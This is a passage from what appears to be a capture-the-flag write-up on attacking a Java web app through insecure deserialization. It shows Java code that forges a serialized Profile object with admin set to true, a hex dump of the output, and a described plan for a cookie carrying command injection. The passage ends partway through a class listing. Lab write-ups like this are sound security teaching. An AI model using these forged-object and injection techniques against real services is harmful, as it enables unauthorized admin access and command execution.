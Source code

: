 
I’ll change it to have it generate two things:

  * A simple serialized `Profile` object that has `admin` set to true.
  * A serialized `UserProfile` object for the cookie that has the path that both gets to the uploaded profile and has command injection.

#### Profile Object

To create a `Profile` object, I’ll just create one like in the code I have,
and then I’ll write it to a file using the `SerUtils` and `FileUtil`:

    
    
    package com.admin.security.src;
    
    import com.admin.security.src.model.Profile;
    import com.admin.security.src.utils.SerUtils;
    import com.admin.security.src.utils.FileUtil;
    import java.util.ArrayList;
    import java.io.File;
    import java.io.IOException;
    
    public class App {
        public static void main( String[] args ) throws IOException {
            Profile profile = new Profile(new ArrayList<>(), true);
            FileUtil.write(SerUtils.toByteArray(profile), new File("./0xdf.ser"));
        }
    }
    

When I `mvn package` and then run this, it generates the file:

    
    
    oxdf@hacky$ xxd 0xdf.ser 
    00000000: aced 0005 7372 0024 636f 6d2e 6164 6d69  ....sr.$com.admi
    00000010: 6e2e 7365 6375 7269 7479 2e73 7263 2e6d  n.security.src.m
    00000020: 6f64 656c 2e50 726f 6669 6c65 3774 2025  odel.Profile7t %
    00000030: 7b91 5797 0200 035a 000c 6164 6d69 6e50  {.W....Z..adminP
    00000040: 726f 6669 6c65 4c00 0661 7661 7461 7274  rofileL..avatart
    00000050: 000e 4c6a 6176 612f 696f 2f46 696c 653b  ..Ljava/io/File;
    00000060: 4c00 046c 6f67 7374 0010 4c6a 6176 612f  L..logst..Ljava/
    00000070: 7574 696c 2f4c 6973 743b 7870 0170 7372  util/List;xp.psr
    00000080: 0013 6a61 7661 2e75 7469 6c2e 4172 7261  ..java.util.Arra
    00000090: 794c 6973 7478 81d2 1d99 c761 9d03 0001  yListx.....a....
    000000a0: 4900 0473 697a 6578 7000 0000 0077 0400  I..sizexp....w..
    000000b0: 0000 0078
    

#### UserProfileStorage Object

To create a `UserProfileStorage`, I first need a `User`. The
`@AllArgsConstructor` means that there is a constructor which sets all the
args in the order they show up (from `User.java`):

    
    
    @AllArgsConstructor
    @NoArgsConstructor
    @Data
    public class User implements Serializable {
        private static final long serialVersionUID = -7780857363453462165L;
    